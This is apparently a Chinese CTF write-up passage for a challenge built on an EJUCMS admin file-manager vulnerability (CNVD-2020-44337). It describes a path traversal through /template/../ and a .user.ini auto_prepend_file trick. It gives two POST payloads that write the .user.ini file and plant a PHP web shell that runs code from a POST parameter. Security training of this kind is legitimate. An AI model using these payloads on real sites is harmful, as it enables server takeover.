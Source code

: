 Getshell 以后就能找到 flag

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01fb54a56b5b2e39b1.png)

### **Hacked_By_V**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t013a4f7cfb3b9ade9d.png)

这题是 EJUCMS 的 0day(CNVD-2020-44337)，虽然给了源码，但不用审也能做，毕竟很明显提示是后台，而后台能交互文件的地方不多，挖过 CMS 的应该很快能猜到是模板处存在漏洞。

**代码审计：** **/application/admin/controller/Filemanager.php **

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0134dd8e0bda31e659.png)

此处对编辑的文件位置、后缀等做了限制

其中利用 str_replace 限制目录穿越没啥用，利用/template/../可直接在根目录下写文件

**/application/admin/logic/FilemanagerLogic.php **

白名单规定了后缀名，利用 ini 进行 getshell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01be6d793fdb9dcf3a.png)

**解题：**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010254d56a5f114015.png)

进入后对任意 htm 文件进行编辑并抓包，目标是找到一个有 php 文件的目录，再利用**.user.ini** 来写马

有些目录权限是不能写，所以多找几个叭。

修改 POST 数据为

```
activepath=/template/../data/schema&amp;filename=.user.ini&amp;content=auto_prepend_file=12321.htm&amp;_ajax=1
```

再次发一个包，修改数据为

```
activepath=/template/../data/schema&amp;filename=12321.htm&amp;content=&lt;?php $fun = create_function('',$_POST['a']);$fun();?&gt;&amp;_ajax=1
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e252a5019e8ad562.png)

Getshell 在网站根目录下可见 flag。
